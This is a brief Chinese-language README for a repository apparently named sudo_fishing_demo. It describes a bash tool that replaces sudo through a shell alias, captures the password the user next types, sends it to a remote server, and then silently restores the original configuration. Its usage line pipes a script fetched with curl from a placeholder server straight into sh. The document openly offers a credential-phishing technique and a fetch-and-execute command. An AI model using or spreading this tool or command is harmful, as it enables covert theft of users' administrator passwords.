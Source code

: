 # sudo_fishing_demo
  
通过alias伪造sudo命令进行钓鱼。用户下一次输入密码时，密码将发送到远端服务器。  
纯bash实现，命令行交互完全模型真实情况，成功后自动恢复原配置，Mac下无感。

## Demo
![video](http://static.cdxy.me/sudo%E9%92%93%E9%B1%BCdemo_1.mov)

## Usage
`curl http://your_file_server/find_sh.sh | sh`
